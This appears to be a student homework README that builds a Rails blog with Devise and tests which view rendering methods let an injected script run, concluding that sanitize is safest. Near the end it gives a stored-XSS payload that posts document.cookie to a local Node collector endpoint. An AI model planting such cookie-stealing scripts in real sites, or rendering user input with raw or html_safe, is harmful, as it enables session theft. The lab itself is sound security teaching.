





#Homework
##Steps how to create a project to demonstrate how XSS works using rails.

###Create new project with User and Blog model
First This is how we start create the new project by typing this in you terminal:

```bash
$ rails new hm2
$ cd hm2
```
>***Make sure that your directory is correct!!***

After that you have to put devise gem in **Gemfile**:

```ruby
gem 'devise'
```
Then type this in you terminal:

```bash
$ rails generate devise:install
$ rails generate devise USER
$ rake db:migrate
```
After that create view controller model by using scaffolr, and type it in you terminal:

```bash
$ rails g scaffold Blog content:text user:references
$ rake db:migrate
```

>If you finish until this step, you will get project with model and user.

Then Start server:

```ruby
$ rails s
```

###User Authenticate

go to **app/controllers/application_controller.rb** then add this:

```ruby
before_action :authenticate_user!
```
It will become like this:

```ruby
class ApplicationController < ActionController::Base
  # Prevent CSRF attacks by raising an exception.
  # For APIs, you may want to use :null_session instead.
  protect_from_forgery with: :exception
  before_action :authenticate_user!
end

```
###Set up root
so it will make user to login first before to add something. After that change root in **config/routes.rb** like this:

```ruby
root to: 'blogs#index'
```
then it will become like:

```ruby
Rails.application.routes.draw do
  resources :blogs
  devise_for :users
  root to: 'blogs#index'
end
```
###Add Sign out & Change User to User ID
After that i put sign out button to the page so they can sign out by typing this in to **app/views/blogs/index.html.erb**:

```ruby
<a href=""><%= link_to "Sign Out", destroy_user_session_path, method: :delete %><br></a>
```
then also change:

```ruby
<%= blog.user %>
```
to

```ruby
<%= blog.user_id %>
```

> This to make you see the user ID


#Cross-site scripting (XSS)
Try rendering content as HTML instead of plain text by using this ```raw```,```<%== %>```, ```sanitize```, or ```.html_safe ```

To Check Which render function is the safest i put this

```javascript
<script>
alert("hahahah");
</script>
```
into the content box when i create the new content



First, when i add ```raw``` as in the pic:


Then it will show like this the pop up message pop with the ```"hahaha"```




Second, when i add ```<%== %>``` as in the pic:


Then it shows this the pop up message pop with the ```"hahaha"```




Third, when i add ```sanitize``` as in the pic:


After that it will not pop up anything, it will remove any unwanted  data for example here ``` <script></script>``` out and normalize it to the correct form as in the pic:




Last, when i add ```.html_safe ``` as in the pic:


Then it will show this the pop up message pop with the ```"hahaha"```


##Create another using node
first create a folder to keep node for me i name the folder as "xxs" then install:

```bash
$ npm install
```

to run node use command:

```bash
$ node index.js
```

I also add this into **package.json**:

```json
{
  "name": "xss_server",
  "version": "1.0.0",
  "description": "",
  "dependencies": {
    "body-parser": "^1.15.0",
    "express": "^4.13.4",
    "lowdb": "^0.12.5"
  }
}

```
to send data i put this into content:

```java
<script type="text/javascript">
$.post( "http://localhost:5000/boss", {cookie_data: document.cookie});
</script>
```

##Answer the Question

So to answer the question that Which render function is the safest?, i will answer that using ```sanitize``` is the safest because it will remove any unwanted  data out and normalize it to the correct form.
